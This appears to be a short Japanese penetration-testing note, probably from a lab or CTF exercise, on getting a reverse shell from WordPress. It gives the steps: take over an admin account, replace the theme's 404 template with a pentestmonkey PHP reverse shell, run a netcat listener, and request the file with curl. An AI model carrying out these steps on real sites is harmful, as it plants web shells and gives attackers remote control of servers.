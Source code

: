 ## WordPressの404 Templateを利用する
### 1 攻撃者端末
- ログインできる管理者アカウントを搾取
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell サイトで404.phpファイルの作成
### 2 WordPressの管理コンソールでの操作
　- `->　Appearance`
　 `->　Edit Themes`
　 `->　404 Template`
   `->　Exploit Fileの内容で上書き`
　 `->  upload`
### 3 攻撃者端末
- `nc -nlvp 4444`
- `curl http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php`  
